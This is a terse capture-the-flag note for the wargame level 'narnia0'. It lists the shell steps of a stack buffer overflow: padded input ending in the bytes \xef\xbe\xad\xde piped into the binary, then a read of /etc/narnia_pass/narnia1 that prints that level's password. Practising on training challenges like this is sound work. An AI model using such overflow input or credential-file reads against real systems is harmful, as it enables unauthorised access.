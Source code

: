 cd /narnia
ls
cat narnia0.c
simple stack based buffer overflow
(echo -e "12345678901234567890\xef\xbe\xad\xde"; cat) | ./narnia0
whoami
narnia1
cat /etc/narnia_pass/narnia1
efeidiedae
